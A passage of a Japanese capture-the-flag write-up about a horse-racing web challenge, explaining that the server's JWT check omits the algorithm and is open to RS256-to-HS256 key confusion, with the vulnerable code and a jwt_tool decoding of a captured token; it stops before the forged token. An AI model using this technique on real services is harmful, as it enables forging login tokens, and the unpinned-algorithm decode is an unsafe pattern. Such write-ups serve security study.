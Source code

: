 ```
$ python3 find.py
6441910
```

見つかりました。

持っている馬を任意の馬名に改ざんできないでしょうか。馬名などがどのようにして保存されているか確認しましょう。

```python
def validate_token(token):
    try:
        data = jwt.decode(token, PUBLIC_KEY)
        return all(attr in data for attr in ["user","is_omkar","money","horses"]), data
    except:
        return False, None

def generate_token(data):
    token = jwt.encode(data, PRIVATE_KEY, "RS256")
    return token
```

JWT で署名と検証をしているようです。よく見ると署名時には `RS256` とアルゴリズムを指定していますが、検証時にはアルゴリズムを指定していません。アルゴリズムを `HS256` に変えれば、`jwt.decode` は `PUBLIC_KEY` を秘密鍵と誤認して検証するのではないでしょうか。試してみましょう。

[ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool) で `Check for HS/RSA key confusion vulnerability` を試してみると、実際にそのような挙動をすることが確認できました。

それでは、馬名を `6441910` に変えてみましょう。

```
$ jwt_tool "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjp0cnVlLCJpc19vbWthciI6ZmFsc2
UsIm1vbmV5IjowLCJob3JzZXMiOlsiT2xpdmVyIl19.lXNAJe7ymk5MrzBnWYgJRAKczyiFfEjRJ5g61Wy4Q9I0VIPkcgBRYJrfHBgKuOA0Uu2uWdlE60ikwvv8Rup7TNsqXLSoY8G2ilq-W0FuaPKzeMk7-llCKA9Tkk3Di8S-
j9UGwA4TSV4vnCdZi12nIopRhPEdW6_9BJlhZPx6pImWKiMC8G8Z2EOOfTXyUydhOZ1ADSOZUQsbTdUgU6ehwREd4lwxlOpHrG-O-3YOrHuwZ34XfXl9ieBr9qC0fX7UJeb9Jns4ZW5t_Ow0JD61gQCn2U6B8PXVSzIFUjXhrtd
zvyg3Z1QOc70i1IM2ISwHyWHMk9nRI68XMnL4WR2j-5XfVDBRrnildZBWCbU91QU_1SvzQSzYJnZ-1RPLzKyAUWH052KDLDkE9DTdYGjRTSOgEvVu8tTkac8E_upzQiWXNNHJUoiiJ5o-wL_oU_Xly5N4W60G1XchuE4OvqKzSr
UiAjQQpMVTjiv5BMUWSnqzRAordIEMEdOiVlHxTJ4phr76gRz2ZREk7zvIKq_zSc4gBtH6HB5DpvEkt3JYaJ6Q1KcHcherwzuQ2JJgKDUpXYKjjSLvd_vzP1-MqyIuQtwUjXzGI2YlWBpy8fInbB7nR-l5qnWevEWWpt9jfVxGs
Q7zWS3SthqDh7CuQH-9tTmDofKh0s7uqCXNP91FHCU"

   $$$$$\ $$\      $$\ $$$$$$$$\  $$$$$$$$\                  $$\
   \__$$ |$$ | $\  $$ |\__$$  __| \__$$  __|                 $$ |
      $$ |$$ |$$$\ $$ |   $$ |       $$ | $$$$$$\   $$$$$$\  $$ |
      $$ |$$ $$ $$\$$ |   $$ |       $$ |$$  __$$\ $$  __$$\ $$ |
$$\   $$ |$$$$  _$$$$ |   $$ |       $$ |$$ /  $$ |$$ /  $$ |$$ |
$$ |  $$ |$$$  / \$$$ |   $$ |       $$ |$$ |  $$ |$$ |  $$ |$$ |
\$$$$$$  |$$  /   \$$ |   $$ |       $$ |\$$$$$$  |\$$$$$$  |$$ |
 \______/ \__/     \__|   \__|$$$$$$\__| \______/  \______/ \__|
 Version 1.3.4                \______|              @ticarpi


=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = "JWT"
[+] alg = "RS256"

Token payload values:
[+] user = True
[+] is_omkar = False
[+] money = 0
[+] horses = ['Oliver']

----------------------
```